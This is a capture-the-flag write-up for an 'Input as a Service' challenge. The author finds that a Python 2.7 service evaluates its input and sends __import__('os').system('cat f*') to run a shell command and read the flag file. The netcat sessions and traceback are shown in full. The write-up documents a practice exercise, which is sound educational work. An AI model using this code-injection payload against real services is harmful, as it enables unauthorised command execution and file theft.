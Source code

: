 # Input as a Service

Challenge text:
```
In order to blend with the extraterrestrials, we need to talk and sound like them. Try some phrases in order to check if you can make them believe you are one of them.
```

I connect to the server using netcat, and it seems to be a Python shell.
```bash
$ nc 138.68.181.43 30730
2.7.18 (default, Apr 20 2020, 19:51:05) 
[GCC 9.2.0]
Do you sound like an alien?
>>> 
```

As a test, I sent `a`, and got the response
```bash
$ nc 138.68.181.43 30730
2.7.18 (default, Apr 20 2020, 19:51:05) 
[GCC 9.2.0]
Do you sound like an alien?
>>> 
a    

 Traceback (most recent call last):
  File "/app/input_as_a_service.py", line 16, in <module>
    main()
  File "/app/input_as_a_service.py", line 12, in main
    text = input(' ')
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
```
It looks like the script simply evals anything you send in, so I send `__import__("os").system("cat f*")`, and get the flag.
```bash
$ nc 138.68.181.43 30730
2.7.18 (default, Apr 20 2020, 19:51:05) 
[GCC 9.2.0]
Do you sound like an alien?
>>> 
__import__("os").system("cat f*")
CHTB{4li3n5_us3_pyth0n2.X?!}
```